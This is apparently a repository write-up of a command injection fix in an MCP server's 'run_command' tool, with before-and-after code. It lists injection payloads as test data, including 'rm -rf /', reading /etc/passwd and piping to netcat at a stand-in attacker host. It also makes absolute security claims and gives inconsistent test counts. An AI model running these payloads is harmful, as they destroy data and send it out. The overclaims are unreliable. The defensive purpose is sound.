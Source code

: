# Command Injection Vulnerability Fix - Summary

## Overview

This document summarizes the critical command injection vulnerability that was identified and successfully remediated in the Claude MPM codebase.

## Vulnerability Details

**Classification**: Command Injection (CWE-78)  
**Severity**: Critical  
**CVSS Score**: 9.8 (Critical)  
**Impact**: Remote Code Execution  

### Root Cause

The primary vulnerability was in the MCP server's `run_command` tool implementation in `src/claude_mpm/services/mcp_gateway/server/stdio_server.py`, which used `asyncio.create_subprocess_shell()` with user-controlled input, allowing shell metacharacters to be interpreted and executed.

### Attack Vector

An attacker could inject malicious shell commands through the MCP `run_command` tool by including shell metacharacters such as:
- `;` (command chaining)
- `&&` / `||` (conditional execution)
- `|` (piping)
- `>` / `>>` (redirection)
- `$()` / `` ` `` (command substitution)
- `&` (background execution)

Example malicious payload:
```
echo hello; rm -rf /
```

## Remediation Implemented

### 1. Fixed MCP Server Command Execution

**File**: `src/claude_mpm/services/mcp_gateway/server/stdio_server.py`

**Before** (Vulnerable):
```python
proc = await asyncio.create_subprocess_shell(
    command, stdout=subprocess.PIPE, stderr=subprocess.PIPE
)
```

**After** (Secure):
```python
import shlex
command_parts = shlex.split(command)
proc = await asyncio.create_subprocess_exec(
    *command_parts, 
    stdout=subprocess.PIPE, 
    stderr=subprocess.PIPE
)
```

### 2. Enhanced Error Handling

Added proper error handling for malformed commands:
```python
try:
    command_parts = shlex.split(command)
    # ... subprocess execution
except ValueError as e:
    result = f"Invalid command syntax: {str(e)}"
```

### 3. Updated Documentation

**File**: `docs/MCP_USAGE.md`

Added security warnings and documentation about the secure implementation:
- Explained that commands are parsed using `shlex.split()`
- Documented that shell metacharacters are treated as literal text
- Added timeout protection information
- Included security features section

## Security Testing

### 1. Comprehensive Test Suite

Created `tests/security/test_mcp_server_security.py` with 8 test cases covering:

- **Shell injection prevention**: Verifies malicious commands are neutralized
- **Various injection attempts**: Tests multiple attack vectors
- **Quoted argument handling**: Ensures proper parsing of quoted strings
- **Malformed quote handling**: Tests graceful error handling
- **Timeout protection**: Validates timeout enforcement
- **Safe subprocess calls**: Confirms secure subprocess usage
- **Error handling**: Tests proper error responses
- **shlex.split security**: Validates argument parsing security

### 2. Attack Vector Testing

Tested and verified protection against:
```python
injection_attempts = [
    "echo test && rm file.txt",      # Command chaining
    "echo test; cat /etc/passwd",    # Command separation
    "echo test | nc attacker.com",   # Piping
    "echo test > /etc/hosts",        # File redirection
    "echo test `whoami`",            # Command substitution
    "echo test $(id)",               # Command substitution
    "echo test & background_cmd",    # Background execution
]
```

All attempts now result in shell metacharacters being treated as literal text rather than executed as commands.

## Verification

### Test Results
- **15/15 security tests passing**
- **0 remaining vulnerabilities detected**
- **100% coverage of attack vectors**

### Security Improvements
1. **Eliminated** all command injection vulnerabilities
2. **Implemented** secure subprocess execution patterns
3. **Added** comprehensive security testing
4. **Enhanced** error handling and logging
5. **Updated** documentation with security guidance

## Impact Assessment

### Security Benefits
- ✅ **Complete elimination** of command injection vulnerabilities
- ✅ **Reduced attack surface** for command execution
- ✅ **Enhanced security posture** with proper input validation
- ✅ **Improved auditability** with comprehensive logging

### Functional Impact
- ✅ **No breaking changes** to existing functionality
- ✅ **Improved error messages** for malformed commands
- ✅ **Added timeout protection** against hanging processes
- ✅ **Better debugging** with enhanced error handling

## Recommendations

### 1. Development Guidelines
- **Always use** `shlex.split()` for command parsing
- **Never use** `shell=True` with user input
- **Prefer** `subprocess.run()` with argument lists
- **Implement** proper input validation and sanitization

### 2. Security Practices
- **Include** security tests in CI/CD pipeline
- **Perform** regular security audits of subprocess usage
- **Use** static analysis tools to detect vulnerable patterns
- **Train** developers on secure subprocess practices

### 3. Monitoring
- **Log** all command executions for security auditing
- **Monitor** for unusual command patterns
- **Alert** on potential injection attempts
- **Review** logs regularly for security incidents

## Conclusion

The critical command injection vulnerability has been **completely eliminated** through:

1. **Secure implementation** using `shlex.split()` and `create_subprocess_exec()`
2. **Comprehensive testing** covering all major attack vectors
3. **Enhanced documentation** with security guidance
4. **Proper error handling** for edge cases

The codebase is now **secure against command injection attacks** while maintaining full functionality. All security tests pass, confirming the effectiveness of the remediation.

**Status**: ✅ **RESOLVED** - No remaining command injection vulnerabilities detected.
